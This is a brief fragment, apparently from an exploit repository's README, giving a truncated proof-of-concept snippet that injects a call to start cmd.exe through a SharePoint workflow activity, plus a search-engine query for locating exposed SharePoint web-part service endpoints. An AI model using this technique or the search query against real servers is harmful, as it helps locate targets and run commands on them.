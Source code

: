 POC
---

    CallExternalMethodActivity x:Name="foo"
    ....System.Diagnostics.Process.Start("cmd.exe",

Google Dork
-----------

    .sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec